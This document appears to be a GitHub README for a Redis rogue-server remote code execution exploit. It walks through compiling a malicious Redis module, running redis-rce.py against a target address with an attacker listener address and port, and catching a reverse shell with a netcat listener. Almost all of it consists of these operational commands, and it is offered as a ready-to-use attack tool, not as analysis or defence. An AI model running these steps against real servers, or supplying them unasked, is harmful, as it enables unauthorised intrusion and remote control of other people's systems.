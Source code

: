 # Redis Rouge Server Remote Code Execution
## Usage
- Compile module.so from https://github.com/binaryxploit/redis-module-load-cmd-exec
```bash
git clone https://github.com/binaryxploit/redis-module-load-cmd-exec.git
cd ./redis-module-load-cmd-exec
make
```
- Clone the repo and copy the module.so file
```bash
cd ../
git clone https://github.com/binaryxploit/redis-rouge-server-rce.git
cd redis-rouge-server-rce
cp ../redis-module-load-cmd-exec/module.so ./
```
- Expoit usage example
```bash
python3 redis-rce.py -r 192.168.121.69 -L 192.168.45.221 -P 8888 -f ./module.so
```
- Note: The exploit lets to choose [i]nteractive shell or [r]everse shell option
- If choose [r]everse shell option set up a listener using netcat to grab the shell
```bash
nc -nvlp 8888
```
